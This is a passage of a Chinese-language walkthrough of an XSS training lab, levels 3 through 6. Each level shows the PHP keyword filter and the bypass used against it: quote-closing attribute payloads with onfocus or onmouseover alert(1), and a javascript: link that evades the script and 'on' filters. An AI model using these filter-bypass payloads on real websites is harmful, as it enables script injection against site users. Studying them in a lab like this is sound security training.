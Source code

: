 构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test'onmouseover='alert(1)'`
payload: `test'onfocus='alert(1)' autofocus '`

---

# level 4

```php
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
```

发现过滤了 `<`、`>`,使用 `"` 可以闭合

测试一下 `test"123`

![images](../../../../assets/img/安全/实验/Misc/XSS/3.png)

构造 input 的 XSS,例如: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test"onfocus=alert(1) autofocus "`

---

# level 5

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
```

这一关主要过滤了 `<script` 和 `on`

使用 `">` 闭合,然后使用一个不被过滤的payload `<a href=javascript:alert(19)>M`

payload: `"><a href=javascript:alert(19)>M`

---

# level 6

```php
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```
